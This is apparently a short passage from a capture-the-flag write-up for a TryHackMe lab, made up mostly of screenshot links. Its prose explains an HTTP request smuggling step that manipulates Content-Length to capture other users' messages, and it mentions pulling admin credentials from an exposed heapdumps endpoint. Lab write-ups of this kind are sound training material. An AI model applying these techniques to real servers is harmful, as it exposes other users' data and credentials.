
Looks like it is because response was sent with HTTP/1.1
is request smuggling possible?
yes it is


Above we have request - Content Length is 4 because we have data in body "test". POST will be treated as second - smuggled - request. We have to try with different content lengths to get message from aliens.
After we send this request we have to wait a bit and send **/getMessages** request to get all messages:


In getting last flag https://voltatech.in/blog/2024/tryhackme-elbandito/#http2-desync-attack this explanation helped me a lot, especially the things related to content-length. Thanks to this writeup I understand It better now :)
It was also possible to find admin credentials and first flag using endpoint **heapdumps** and tool **visualvm**:



